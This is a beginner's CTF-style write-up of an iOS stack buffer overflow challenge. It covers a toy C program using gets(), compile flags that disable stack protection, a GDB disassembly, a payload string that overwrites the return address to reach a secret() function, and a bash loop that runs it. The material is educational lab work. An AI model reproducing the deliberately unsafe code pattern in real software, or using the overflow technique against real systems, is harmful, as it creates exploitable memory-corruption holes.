

# iOS Buffer Overflow attack

This program is the start of my journey. I always loved jailbreaking since I was young but I disliked programming (given by the D- I received in AP Computer science). It wasnt until university until I knew that I wanted to do things revolving around iOS. 

Eventually I switched my major to computer science and got into iOS development and it wasn't until recently I got into exploitation and the nitty gritty of iOS internals. This is the beginning of my journey and I hope you tear it apart because I will probably learn from it.

Im also doing this in VIM because I want to learn it so godspeed.

The challenges in these writeups are from [Billy Ellis](https://github.com/Billy-Ellis/Exploit-Challenges). Although Im going through his book at the time these may be different than the ones he has uploaded on github.

## The program
------
```
#include <stdio.h>
#include <stdlib.h>

void secret() {
    printf("You found the secret! Buffer overflow challenge completed!i\n");	
}
int main( int argc, char *argv[]) {
    char buff[8];
    printf("Enter a string: \n");
    gets(buff);
    printf("You entered: %s\n", buff);
	return 0;
}
```

Lets walk through this step by step. At the top is the header, `<stdio.h>` imports the standard input and output header, hence the "stdio" name. After that is the function named secret which prints out a statement that you've completed the challenge, more on that later.

After this is the main() function. This contains a character buffer that is meant to store your input, specifically, 8 characters. After this statement is a printf asking for your input and then a gets(). This is where the vulnerability lies.

gets() takes yours input and tries to stuff it inside of a 8 character array. Since gets doesn't do any checks on whether your input will actually fit inside or not, it's prone to buffer overflows. 

The point of a buffer overflow attack is to give enough input so that you can **overwrite** the link register aka the _return address_ and effectively redirecting the control flow of the program to wherever you desire.
Usually the place you redirect to *bypasses* the security measures put in place by the program.

Now, I am doing this on an iPhone SE running 11.2.6 on the unc0ver jailbreak. So I am compiling the program on the device.

## The setup
------
Im going to need to compile the program.

`
clang buffer_overflow.c -isysroot $THEOS/sdks/iPhoneOS11.2.sdk/ -fno-stack-protector -fno-pic -o buffer_overflow
`

To compile, I use clang which can be downloaded through Cydia. The first argument is the program, then comes -isysroot which just defines the SDK used to compile the program and the path to it. I have theos installed on device with some SDKs so I use the ios11.2 SDK which is necessary to compile on iOS11. Finally come the arguments to make the program vulnerable.

The -fno-stack-protector argument stands for "force no stack protector", this tells the program to disable the stack smasher that prevents stack overflows from happening. These arguments are provided by Billy Ellis so I am adding them as well. -fno-pic stands for force no position independant code. This protects against buffer overflows by forcing the program to not have ASLR enabled. Address space layout randomization randomizes where executable are loaded into memory rather than keeping the addresses the same.

Although it doesn't completly remove ASLR it makes it more vulnerable (apparently).

**Definiton:** Address space layout randomization (ASLR) is a memory-protection process for operating systems (OSes) that guards against buffer-overflow attacks by randomizing the location where system executables are loaded into memory.
 
To make the executable run on the device it has to be signed. 

`
mobile@ven1xus-SE:~/programs/challenges$ ldid -e /bin/ls
`

```
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>platform-application</key>
	<true/>
	<key>com.apple.private.skip-library-validation</key>
	<true/>
</dict>
</plist>
mobile@ven1xus-SE:~/programs/challenges$ ldid -e /bin/ls > ent.plist
mobile@ven1xus-SE:~/programs/challenges$ ldid -Sent.plist buffer_overflow
```

The ldid command run prints out the entitlement used for signing the ls command. I can then take this entitlement and put it into a file that I can use to sign my own programs. Finally I sign buffer_overflow with the new entitlement.

It is required to sign executables on iOS devices because it is a security measure implemented by apple back in iOS 2 or something like that.


## Analysis
------

Now I have to analyze the binary, so I will use GDB (GNU Debugger) or send it over to my MacBook using scp. If you would rather do the latter so you can analyze it via Hopper or IDA then here is the scp command broken down.

`
tommy@ven1xus-mbp:~$ scp -P 2222 mobile@localhost:~/programs/challenges/buffer_overflow ~/Desktop/bufferOverflow/
`

Keep in mind that my phone is hooked up via USB so thats why scp -P 2222 is used. This command works as follows:

1. **scp -P 2222 mobile@localhost:** - This means to login as the user "mobile" at your computers port 2222 which my iPhone is hooked up to. Meaning to login to the iPhone

2. **~/programs/challenges/buffer_overflow** - This is the location of the buffer_overflow file I need to acquire.

3. **~/Desktop/bufferOverflow/** - This is the location I want to move it do on my MacBook.


So now that I have the executable where I want it, I analyze the executable.

`
mobile@ven1xus-SE:~/programs/challenges$ gdb buffer_overflow
`

and then disassemble the secret function so I can see where the start address of the function is.

```
(gdb) disas secret 
Dump of assembler code for function secret:
   0x0000000100007e7c <+0>:	sub	sp, sp, #0x20
   0x0000000100007e80 <+4>:	stp	x29, x30, [sp,#16]
   0x0000000100007e84 <+8>:	add	x29, sp, #0x10
   0x0000000100007e88 <+12>:	adrp	x0, 0x100007000
   0x0000000100007e8c <+16>:	add	x0, x0, #0xf58
   0x0000000100007e90 <+20>:	bl	0x100007f1c
   0x0000000100007e94 <+24>:	stur	w0, [x29,#-4]
   0x0000000100007e98 <+28>:	ldp	x29, x30, [sp,#16]
   0x0000000100007e9c <+32>:	add	sp, sp, #0x20
   0x0000000100007ea0 <+36>:	ret
End of assembler dump.
```

As you can see the memory address of the function is `0x0000000100007e7c`

## Exploit
------

To find the max amount  characters gets() can put into the buffer, I can stuff random series of characters into the string and check the crash logs or see when an illegal instruction is thrown. For me it was ~33 characters.

```
mobile@ven1xus-SE:~/programs/challenges$ printf " AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD" | ./buffer_overflow 
Enter a string: 
warning: this program uses gets(), which is unsafe.
You entered:  AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD
Illegal instruction: 4
```

From now on after the last D's I have to append the address of secret() so the link register can be over riden with its address. iOS is in [little endian format](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=1&cad=rja&uact=8&ved=2ahUKEwjUrva96-veAhWwoIMKHcdbDXYQtwIwAHoECAUQAQ&url=https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3DNcaiHcBvDR4&usg=AOvVaw3kCF3gxftrA8m5zSebv8aq) so I have to put the bytes at the end of that long string in reverse order

`
mobile@ven1xus-SE:~/programs/challenges$ printf " AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD\x7c\x7e\x00\x00\x01" | ./buffer_overflow 
`

The programm will still throw a segmentation fault, I'm going to have to write a script to run this command until the secret function address is at the address specified by GDB. I wrote the script in bash like so.

```
#!/bin/bash
for i in {1..100000}
do
        printf " AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD\x7c\x7e\x00\x00\x01" | ./buffer_overflow
done
```

Make sure you run the script inside of the directory where buffer_overflow is.

The script eventually prints the following: 



**Congratulations I have done a buffer overflow on iOS!**

